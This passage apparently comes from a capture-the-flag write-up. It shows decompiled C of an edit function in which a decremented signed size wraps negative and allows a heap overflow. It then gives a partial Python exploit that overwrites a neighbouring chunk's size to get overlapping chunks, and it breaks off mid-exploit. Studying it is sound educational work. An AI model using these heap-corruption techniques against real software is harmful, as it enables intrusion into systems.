 ```c
}

```

```c
void edit(void)

{
  int index;
  char size;
  
  puts("Which user?");
  __isoc99_scanf(&DAT_00102074,&index);
  if ((index < 0) || (0x13 < index)) {
    puts("Out of range detected");
  }
  else {
    if (*(long *)(&user_storage + (long)index * 8) == 0) {
      puts("Bye hacker");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    size = *(char *)(*(long *)(&user_storage + (long)index * 8) + 8);
    puts("Input message content >>");
    read_all(*(undefined8 *)(*(long *)(&user_storage + (long)index * 8) + 0x18),size + -1);
    *(char *)(*(long *)(&user_storage + (long)index * 8) + 8) =
         *(char *)(*(long *)(&user_storage + (long)index * 8) + 8) + -1;
  }
  return;
}

```

In add function, after created a user_ptr, the program will store the size in *user_ptr+8.
```c
*(char *)(*(long *)(&user_storage + (long)user_index * 8) + 8) = size;
```
In edit function, the program will read size-1 byte and decrease the size and store it when we are finished editing. 
```c
read_all(*(undefined8 *)(*(long *)(&user_storage + (long)index * 8) + 0x18),size + -1);
*(char *)(*(long *)(&user_storage + (long)index * 8) + 8) =
         *(char *)(*(long *)(&user_storage + (long)index * 8) + 8) + -1;
```
### Step2: exploit the bug
Therefore, we can exploit it to get a unlimited size.
1. we create a size = 1 chunks.
2. we edit it once, the program will decrease the size to be 0
3. if we edit it again, the read size will become negative number.

Which mean we got a most unlimited size to write our data into the chunk.

Thought this bug, we can create overflow the data to change the size of neighbour chunk's size (this size is the chunk size not the read size) and free it to have a unsorted bin and cause chunks overlap.
```python
add(1, "A")
# chunks for padding
for i in range(9):
    add(0x40, b"/bin/sh\x00")
edit(0, "\n")

# change the size of neighbour
payload = p64(0)*3 + p64(0x431)
edit(0, payload)
```